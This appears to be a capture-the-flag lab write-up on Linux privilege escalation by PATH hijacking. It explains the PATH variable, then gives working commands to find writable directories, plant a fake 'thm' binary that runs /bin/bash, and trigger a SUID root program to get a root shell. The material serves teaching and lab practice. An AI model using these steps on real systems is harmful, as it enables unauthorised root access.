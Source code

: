 # Path

PATH is an environmental variable that contains directories where to find executable files. Whenever a binary such as "ls" is used, the shell refers to the PATH and searches each directory in the order they appear to retrieve the absolute path of the binary. You can return the details of the PATH variable with the following command:
```
echo $PATH
```
Adding a directory to a PATH is beneficial as an executable file can be run from anywhere on the file system without specifying the absolute path. You can temporarily add a directory to the PATH with the following command:
```
export PATH=[/DIRECTORY]:$PATH
```
Alternatively, you can permanently add the directory to the PATH variable by specifying the directory in the shell file.

## Exploiting PATH

PATH variables representing "." enable users to execute binaries from their current directory.

If you don't have permission to modify the PATH variable, place the cloned program in a directory that appears before the directory with the legitimate program in the PATH variable.

Find writable directories that can be added to the PATH variable with the following command that traverses through three layers of each directory.
```
find / -type d -writable -maxdepth 3 2>/dev/null
```

# Practical

I locate two files in the /home/murdoch directory `test` and `thm.py`. After running `test`, the shell returns `thm: not found`, indicating that the shell is looking for a `thm` binary. 

Since the `test` file has 4777 permissions and is owned by the root user, a file that replicates `thm` can be added to the PATH variable with the `/bin/bash` payload.
```
echo "/bin/bash" > thm
```
Add execute permissions to the file to enable execution.
```
chmod +x thm
```
Finally, we run the `test` executable to run a bash instance as the root user.
```
./test
```

